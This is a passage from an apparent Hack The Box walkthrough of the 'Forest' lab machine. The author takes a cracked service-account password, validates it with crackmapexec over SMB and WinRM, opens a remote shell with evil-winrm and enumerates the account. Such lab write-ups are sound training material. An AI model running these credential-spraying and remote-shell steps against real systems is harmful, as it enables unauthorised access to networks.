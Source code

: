Hashcat cracked the password. Now I have `svc-alfresco`'s password : `s3rvice`.
Let's check if this credential is working.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec smb 10.10.10.161 -u svc-alfresco -p s3rvice
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\svc-alfresco:s3rvice 
                                                                           
┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec winrm 10.10.10.161 -u svc-alfresco -p s3rvice
SMB         10.10.10.161    5985   FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local)
HTTP        10.10.10.161    5985   FOREST           [*] http://10.10.10.161:5985/wsman
WINRM       10.10.10.161    5985   FOREST           [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
```

Since it's working on `winrm`, I think I can use `evil-winrm` to open a shell.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine               
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                 
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami
htb\svc-alfresco

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user svc-alfresco /domain
User name                    svc-alfresco
Full Name                    svc-alfresco
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            12/2/2024 1:03:47 PM
Password expires             Never
Password changeable          12/3/2024 1:03:47 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   12/2/2024 12:56:40 PM

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Users         *Service Accounts
The command completed successfully.
```
